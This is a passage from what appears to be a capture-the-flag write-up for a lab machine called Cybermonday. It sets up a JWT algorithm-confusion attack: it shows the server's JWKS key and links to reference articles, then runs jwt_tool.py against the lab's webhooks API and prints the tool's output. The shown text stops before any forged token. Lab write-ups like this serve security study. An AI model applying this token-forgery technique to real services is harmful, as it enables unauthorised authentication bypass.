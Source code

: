 ```json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "alg": "RS256",
      "n": "pvezvAKCOgxwsiyV6PRJfGMul-WBYorwFIWudWKkGejMx3onUSlM8OA3PjmhFNCP_8jJ7WA2gDa8oP3N2J8zFyadnrt2Xe59FdcLXTPxbbfFC0aTGkDIOPZYJ8kR0cly0fiZiZbg4VLswYsh3Sn797IlIYr6Wqfc6ZPn1nsEhOrwO-qSD4Q24FVYeUxsn7pJ0oOWHPD-qtC5q3BR2M_SxBrxXh9vqcNBB3ZRRA0H0FDdV6Lp_8wJY7RB8eMREgSe48r3k7GlEcCLwbsyCyhngysgHsq6yJYM82BL7V8Qln42yij1BM7fCu19M1EZwR5eJ2Hg31ZsK5uShbITbRh16w",                
      "e": "AQAB"
    }
  ]
}
```

Seems that we have extra algorithm information about the JWT. When searching for exploits pertaining to this file, I found a page talking a bit about Algorithm Confusion exploits:

{% embed url="https://infosecwriteups.com/jwt-json-web-tokens-explanation-exploitation-0x02-cea23008314f" %}

Portswigger has done something similar as well:

{% embed url="https://portswigger.net/web-security/jwt/algorithm-confusion" %}

Using `jwt_tool.py` (which I found on Hacktricks), we can create another `.pem` file to use:

```
$ python3 jwt_tool.py -t http://webhooks-api-beta.cybermonday.htb/webhooks -rh "x-access-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpZCI6MiwidXNlcm5hbWUiOiJ0ZXN0MTIzIiwicm9sZSI6InVzZXIifQ.adbQGkwEojcmkdP4XceOZq_eYLJSLaJ1aBvWDyOKR8h_4BfYoCJlZxvxV-wbY6U0Cm6qU1-sijcL9J15wMgn5rqcNyM_vy_UOGl-Ja3x9uXUWTLX6tZ2-_ki4YuDaWtDYQ49LdchXo6lJnRvf6y3xFflXFN7tXbC46uTIWYB58Z2vcF6VEKpj1lPh84yxqldx_rzooE3EDvZK52q_XNvUQynNfIGYmyc-maZCU5VwtZdAv9JRyPO1DD-B8lf1Jps-QM5_HZr_hvijA5au5z8r-SztsHZhf226H4D6aK_0pqNOFfDg9fN5hMKlgoM9FCO8HPHwDlJHNiVWO92DpEVVA" -V -jw ../jwks.json 

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpZCI6MiwidXNlcm5hbWUiOiJ0ZXN0MTIzIiwicm9sZSI6InVzZXIifQ.adbQGkwEojcmkdP4XceOZq_eYLJSLaJ1aBvWDyOKR8h_4BfYoCJlZxvxV-wbY6U0Cm6qU1-sijcL9J15wMgn5rqcNyM_vy_UOGl-Ja3x9uXUWTLX6tZ2-_ki4YuDaWtDYQ49LdchXo6lJnRvf6y3xFflXFN7tXbC46uTIWYB58Z2vcF6VEKpj1lPh84yxqldx_rzooE3EDvZK52q_XNvUQynNfIGYmyc-maZCU5VwtZdAv9JRyPO1DD-B8lf1Jps-QM5_HZr_hvijA5au5z8r-SztsHZhf226H4D6aK_0pqNOFfDg9fN5hMKlgoM9FCO8HPHwDlJHNiVWO92DpEVVA             
                                                                                             
JWKS Contents:
Number of keys: 1

--------                                                                                     
Key 1
Key 1
[+] kty = RSA
[+] use = sig
[+] alg = RS256
[+] n = pvezvAKCOgxwsiyV6PRJfGMul-WBYorwFIWudWKkGejMx3onUSlM8OA3PjmhFNCP_8jJ7WA2gDa8oP3N2J8zFyadnrt2Xe59FdcLXTPxbbfFC0aTGkDIOPZYJ8kR0cly0fiZiZbg4VLswYsh3Sn797IlIYr6Wqfc6ZPn1nsEhOrwO-qSD4Q24FVYeUxsn7pJ0oOWHPD-qtC5q3BR2M_SxBrxXh9vqcNBB3ZRRA0H0FDdV6Lp_8wJY7RB8eMREgSe48r3k7GlEcCLwbsyCyhngysgHsq6yJYM82BL7V8Qln42yij1BM7fCu19M1EZwR5eJ2Hg31ZsK5uShbITbRh16w                      
[+] e = AQAB
```